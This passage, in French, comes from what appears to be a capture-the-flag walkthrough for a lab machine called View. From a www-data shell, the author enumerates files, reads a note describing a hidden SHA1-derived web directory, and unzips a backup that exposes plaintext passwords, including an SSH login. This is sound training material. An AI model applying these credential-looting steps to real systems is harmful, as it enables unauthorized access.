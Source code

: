 Il n'a toutefois rien donné.

Dans un fichier de log, on voit une référence au précédent message *Security devs made a custom app that checks for any unusual files* :

```console
www-data@view:/var/www/html$ alias ls="ls -alh --color"
www-data@view:/var/www/html$ ls defense/
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Oct 26  2019 .
drwxr-xr-x 8 root     root     4.0K Oct 27  2019 ..
-rwxrwxr-x 1 www-data www-data   79 Oct 27  2019 app.log
-rwxr-xr-x 1 www-data www-data  510 Oct 26  2019 index.html
www-data@view:/var/www/html$ less defense/app.log 
www-data@view:/var/www/html$ cat defense/app.log 
Malware Found and Deleted! -- ok.phtml
Malware Found and Deleted! -- test.php5
```

## echo -n motherfucker

On verra ça plus tard. Pour le moment on va se concentrer sur cette note laissée à *Max* :

```console
www-data@view:/var/www/html$ find /home/ -name "*.txt" -ls 2> /dev/null 
   399258      4 -rw-r--r--   1 scarpine scarpine      553 Oct 26  2019 /home/max/note.txt
www-data@view:/var/www/html$ cat /home/max/note.txt
Max,

The electronic controller web application you asked for is almost done. Located on port 8191 this app will allow you to execute your plan from a remote location.

The remote trigger is located in a hidden web directory that only you should know - I verbally confirmed it with you.
If you do not recall, the directory is based on an algorithm:  SHA1(lowercase alpha(a-z) + "view" + digit(0-9) + digit(0-9)).

Example: SHA1(rview86) = 044c64c6964998ccb62e8facda730e8307f28de6 = http://<ip>:8191/044c64c6964998ccb62e8facda730e8307f28de6/

- Scarpine
```

Cette note va de pair avec le `todo` qu'on trouve chez `jenny` :

```console
www-data@view:/var/www/html$ cp /home/jenny/dsktp_backup.zip  /tmp/
www-data@view:/var/www/html$ cd /tmp/
www-data@view:/tmp$ unzip dsktp_backup.zip 
Archive:  dsktp_backup.zip
  inflating: passswords.txt          
  inflating: todo.txt                
www-data@view:/tmp$ cat passswords.txt 
hr mgmt - NO ACCESS ANYMORE
jenny@localhost.com
ThisisAreallYLONGPAssw0rdWHY!!!!

ssh
jenny
!!!sfbay!!!
www-data@view:/tmp$ cat todo.txt
TODO

-Give feedback to marketing on logo (it currently looks like the banner ouside a cheap Italian reseaurant!!)
        -The Boss likes the original, so I guess we're keeping it :/
-Push final script to /home/max/aView.py
```
